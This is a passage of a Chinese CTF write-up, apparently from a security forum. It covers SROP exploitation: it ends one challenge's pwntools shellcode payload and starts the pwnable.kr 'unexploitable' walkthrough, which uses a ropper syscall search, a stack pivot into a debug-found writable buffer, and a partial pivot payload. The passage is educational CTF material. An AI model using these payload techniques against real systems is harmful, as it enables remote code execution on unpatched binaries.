 ```
```

(3) 最后的 shellcode:

```
#注释头
 
payload2 = ""
payload2 += p64(stack_addr+0x10)               #处在stack_addr
#SROP执行完后，ret到stack_addr+0x10处的代码，即执行shellcode
payload2 += asm(shellcraft.amd64.linux.sh())    #处在stack_addr+0x10
io.send(payload2)
sleep(3)
io.interactive()

```

参考资料：

[https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)

二、pwnable.kr-unexploitable
--------------------------

1. 常规 checksec，只开启了 NX。IDA 打开找漏洞，程序很简单，读入数据栈溢出，可以读取 1295 个字节，但是 buf 只有 0x10h 大小，所以可以溢出足够长的数据。

2. 程序没有后门，没有导入 system 函数，没有 binsh 字符串，也没有 write、put、printf 之类的可以泄露 libc 的函数，没办法 ROP，然后 ROPgadget 也搜不到 syscall。这里换用另一种工具 ropper 来搜索：ropper --file=unexploitable --search "syscall"，可以搜到一个。有了 syscall，可以尝试用 rop 来给寄存器赋值然后开 shell，但是这里还是搜不到给 rsi，rdi 等寄存器赋值的 gadget，这就意味着我们也没办法直接通过 ROP 实现 getshell。

3. 如果没有开 NX，直接栈劫持然后 shellcode 就完事了，但是开启了 NX，没办法 shellcode。

4. 啥也不管用的时候，可以用 SROP，也就是通过 syscall 再利用 SigreturnFrame 来设置寄存器 rsi 和 rid 的值，加上字符串 binsh 可以直接 getshell，不用非得设置 rsi,rdi 寄存器值的 rop。但是这里使用 SigreturnFrame 有限制，需要溢出的长度较长一些，32 位下需要依顺序布置栈，64 位条件下需要往栈中布置一个结构体，所以需要输入足够长的 payload 来修改。

5. 这里使用的方案是 SigreturnFrame，先考虑一段足够长的可修改的内存地址来给我们存放栈劫持的内容。但是在 IDA 中按 ctrl+s 查看内存段，发现所有的可改可读的内存段都特别小，没办法存放足够长的溢出内容。这里忽略了一个知识点，临时创建的缓存：也就是我们使用 read(0, &buf, 0x50FuLL); 时，会临时创建一个长度为 0x50F 的缓存区间，这个区间足够满足我们的需求，但是在 IDA 中找不到，那就没办法栈劫持到这个位置。这里可以先动态调试一下，由于没有开启 PIE，程序加载后的基地址是固定的，所以无论程序加载多少次，地址仍然不会发生改变。那么转向动态调试，可以看到程序冒出来一个可读可写的内存段：unexploitable，这个就是临时创建的一个缓存区间，长度为 F88，足够用来执行操作。

![](https://bbs.pediy.com/upload/attach/202108/904686_487SUFMESAWU629.jpg)

6. 在这个区间上任意选取一个地址来栈劫持，这里选择 0x60116c，然后编写 payload，尝试能否成功栈劫持并且读入 binsh：

```
#注释头
 
payload = ""
payload += 'a'*16               #padding
payload += p64(fake_stack_addr)
#main函数返回时，将栈劫持到fake_stack_addr处，第一次将使得rbp变为fake_stack_addr, rbp + buf为fake_stack_addr - 0x10
payload += p64(set_read_addr)   
#汇编指令为lea rax, [rbp+buf]; mov edx, 50Fh; mov rsi, rax; mov edi, 0; mov eax, 0; call _read的地址处
io.send(payload)

```

